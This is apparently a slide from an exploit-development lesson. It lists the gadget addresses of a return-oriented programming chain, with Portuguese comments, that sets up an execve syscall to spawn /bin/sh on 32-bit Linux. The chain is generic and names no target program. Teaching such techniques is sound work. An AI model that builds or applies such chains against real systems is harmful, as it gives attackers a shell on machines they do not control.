

# ROP Chain
0x7274047d # xor eax, eax ; ret
0x72740501 # add eax, 0xb ; ret

0x72740375 # pop ebx ; ret
0x72741008 # Endereço do /bin/sh

0x727404a9 # xor ecx, ecx ; ret

0x727404bf # xor edx, edx ; ret

0x72740508 # int 0x80